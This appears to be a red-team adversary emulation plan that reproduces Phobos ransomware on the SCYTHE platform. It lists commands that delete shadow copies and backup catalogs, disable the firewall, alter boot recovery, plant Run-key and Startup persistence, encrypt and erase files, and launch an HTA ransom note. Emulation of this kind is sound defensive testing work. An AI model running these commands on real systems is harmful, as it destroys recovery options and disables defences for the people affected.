 # Phobos Ransomware Adversary Emulation Plan

This threat is based on the BlackBerry blog post: https://blogs.blackberry.com/en/2021/09/threat-thursday-phobos-ransomware

## Emulate with SCYTHE
**Note this threat, if executed with administrative privileges, will delete Volume Shadow Copies and modify bootup. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot. 

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Phobos
4. Create a new campaign
5. Import from Existing Threat: Phobos
6. Launch Campaign
7. Download the 32-bit EXE payload generated by SCYTHE 
8. Rename the file to horsemoney.exe
9. Execute horsemoney.exe (it will try to escalate privileges on its own)

## Manual Emulation with SCYTHE
1. loader --load run
2. loader --load file
3. controller --integrity
4. Decision: if running elevated, go to step 9
5. loader --load elevate
6. elevate --prompt
7. controller --integrity
8. Decision: if not running elevated, go to step 20
9. STEP = DEFENSE EVASION
10. run vssadmin delete shadows /all /quiet
11. run netsh advfirewall set currentprofile state off
12. run netsh firewall set opmode mode=disable
13. run wmic shadowcopy delete
14. run bcdedit  /set {default} bootstatuspolicy ignoreallfailures
15. run bcdedit  /set {default} recoveryenabled no
16. run wbadmin delete catalog -quiet
17. STEP = PERSISTENCE
18. file --create --path "%AllUsersProfile%\Microsoft\Windows\Start Menu\Programs\StartUp\horsemoney.exe" --size 1MB --count 1 --random
19. run cmd /c REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
20. file --create --path "%LocalAppData%\horsemoney.exe" --size 1MB --count 1 --random
21. file --create --path "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe" --size 1MB --count 1 --random
22. run cmd /c REG ADD HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
23. STEP = IMPACT
24. run cmd /c mkdir "%USERPROFILE%\Desktop\Phobos"
25. file --create --path "%USERPROFILE%\Desktop\Phobos\target_file.xls" --size 1MB --count 100 --random
26. loader --load crypt
27. crypt --target "%USERPROFILE%\Desktop\Phobos\" --encrypt --password "#RansomwareSucks" --erase
28. file --create --path "%USERPROFILE%\Desktop\Phobos\encryptedfile.HORSEMONEY" --size 1MB --count 1 --random
29. loader --load downloader
30. downloader --src "VFS:/shared/Phobos/info.hta" --dest "%USERPROFILE%\Desktop\Phobos\info.hta"
31. run mshta.exe "%USERPROFILE%\Desktop\Phobos\info.hta" &
32. STEP = CLEANUP
33. run cmd /c del "%LocalAppData%\horsemoney.exe"
34. run cmd /c del "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe"
35. run cmd /c REG DELETE HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /f
36. run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Phobos"
37. controller --shutdown